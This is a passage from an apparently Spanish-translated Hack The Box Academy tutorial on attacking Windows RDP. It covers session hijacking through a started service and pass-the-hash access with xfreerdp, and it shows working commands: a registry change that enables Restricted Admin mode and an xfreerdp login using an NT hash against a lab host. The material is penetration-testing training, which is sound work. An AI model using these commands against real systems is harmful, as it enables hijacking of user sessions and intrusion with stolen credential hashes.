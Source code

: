 ![](https://academy.hackthebox.com/storage/modules/116/rdp_session-2-2.png)

Para ejecutar el comando, podemos iniciar el servicio `sessionhijack`:

```r
C:\htb> net start sessionhijack
```

Una vez que el servicio se inicia, aparecerá una nueva terminal con la sesión del usuario `lewen`. Con esta nueva cuenta, podemos intentar descubrir qué tipo de privilegios tiene en la red, y tal vez tengamos suerte, y el usuario sea miembro del grupo Help Desk con derechos de administrador en muchos hosts o incluso un Domain Admin.

![](https://academy.hackthebox.com/storage/modules/116/rdp_session-3-2.png)

_Nota: Este método ya no funciona en Server 2019._

---

## RDP Pass-the-Hash (PtH)

Podríamos querer acceder a aplicaciones o software instalados en el sistema Windows de un usuario que solo están disponibles con acceso GUI durante una prueba de penetración. Si tenemos credenciales en texto claro para el usuario objetivo, no será problema conectarnos por RDP al sistema. Sin embargo, ¿qué pasa si solo tenemos el hash NT del usuario obtenido de un ataque de volcado de credenciales como la base de datos [SAM](https://en.wikipedia.org/wiki/Security_Account_Manager), y no pudimos descifrar el hash para revelar la contraseña en texto claro? En algunos casos, podemos realizar un ataque RDP PtH para obtener acceso GUI al sistema objetivo utilizando herramientas como `xfreerdp`.

Hay algunas advertencias para este ataque:

- `Restricted Admin Mode`, que está deshabilitado por defecto, debe estar habilitado en el host objetivo; de lo contrario, se nos presentará el siguiente error:

![](https://academy.hackthebox.com/storage/modules/116/rdp_session-4.png)

Esto se puede habilitar agregando una nueva clave de registro `DisableRestrictedAdmin` (REG_DWORD) bajo `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`. Se puede hacer usando el siguiente comando:

### Adding the DisableRestrictedAdmin Registry Key

```r
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

![](https://academy.hackthebox.com/storage/modules/116/rdp_session-5.png)

Una vez que se agrega la clave de registro, podemos usar `xfreerdp` con la opción `/pth` para obtener acceso RDP:

```r
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9

[09:24:10:115] [1668:1669] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state            
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr                                   
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd                                  
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr                                 
[09:24:11:427] [1668:1669] [INFO][com.freerdp.primitives] - primitives autodetect, using optimized                               
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_is_hostname_resolvable:freerdp_set_last_error_ex resetting error state
```